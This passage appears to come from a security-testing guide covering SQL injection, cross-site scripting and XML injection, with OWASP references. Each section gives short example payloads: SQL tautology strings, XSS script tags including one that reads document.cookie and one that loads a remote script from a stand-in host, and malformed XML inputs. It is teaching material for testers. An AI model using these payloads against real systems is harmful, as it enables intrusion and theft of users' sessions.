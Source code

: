 [OWASP - Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))

**Examples**
```
' OR 1=1 -- 1
' OR '1'='1
' or 1=1 LIMIT 1;-- 
admin';--

http://www.example.com/product.php?id=10 AND 1=1
```

#### Cross-site Scripting (XSS)

Cross-site Scripting (XSS) attacks occur when an attacker uses a web application to send malicious code, generally in the form of JavaScript, to a different end user. 

There are 3 different types of XSS that you should keep an eye out for: 
1. **Stored** - A Stored XSS vulnerability exists when data provided to a web application by a user is first stored persistently on the server.
2. **Reflected** - A Reflected XSS vulnerability exists when data provided by a web client is used immediately by server-side scripts to generate a page of results for that user.
3. **DOM-Based** - A DOM-based XSS vulnerability exists within a page's client-side script itself.

[OWASP - Testing for Cross-site Scripting](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

**Examples**
```
<IMG SRC=javascript:alert('XSS')>
"><script>alert('XSS')</script><"
" onmouseover="alert('XSS')

http://server/cgi-bin/testcgi.exe?<SCRIPT>alert(“Cookie”+document.cookie)</SCRIPT>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
```

#### XML Injection

XML Injection testing is when a tester tries to inject an XML doc to the application. If the XML parser fails to contextually validate data, then the test will yield a positive result.

[OWASP - Testing for XML Injection](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))

**Examples**
```
Username = foo<
Username = foo<!--
```

##### XML External Entities (XXE)

If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems.
